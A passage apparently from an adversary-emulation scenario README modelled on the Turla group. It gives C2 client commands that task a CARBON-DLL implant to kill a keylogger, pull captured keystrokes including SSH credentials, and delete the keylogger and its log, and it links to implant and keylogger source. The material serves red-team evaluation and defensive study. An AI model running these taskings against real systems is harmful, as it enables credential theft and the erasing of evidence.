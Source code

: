 * Within the SSH session, **type do not copy** the follow commands as
`Adalwolfa`:
1. `sudo nano /var/www/html/index.html`
1. Go to line 198 with `CTRL + SHIFT + -` then type 198
1. Replace `Apache2 Ubuntu Default Page` with `Adalwolfa's Page`
1. save the file with `CTRL + X`, `Y`, `enter`
1. Type `exit` to exit from the SSH session

:arrow_right: Return to the Kali C2 server and task the CARBON-DLL implant 
on Adalwolfa's workstation to kill the keylogger process.
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 1, "cmd": "taskkill /IM wingtsvcupdt.exe /F"}'
```

* Wait 1 minute and then task the CARBON-DLL implant to exfiltrate the data written
to the keylogger file:
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 2, "cmd": "type %temp%\\~DFA512.tmp"}'
```

:heavy_exclamation_mark: Verify that the keystrokes were logged containing the website information and Adalwolfa's SSH credentials.

* Wait 1 minute and then task the CARBON-DLL implant to remove the keylogger and keylogger output file:
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 3, "cmd": "del /Q C:\\Windows\\Temp\\wingtsvcupdt.exe %temp%\\~DFA512.tmp"}'
```

### :moyai: Source Code

* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* [Keylogger](../../Resources/Keylogger/README.md)
  * [Current hostname discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L41)
  * [Token manipulation and session discovery to restart in active session](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L579)
  * [Keylogging hook routine](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L349)
  * [Set keylogging hook](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L719)
  * [Active window discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L419)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://blog.talosintelligence.com/2021/09/tinyturla.html>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

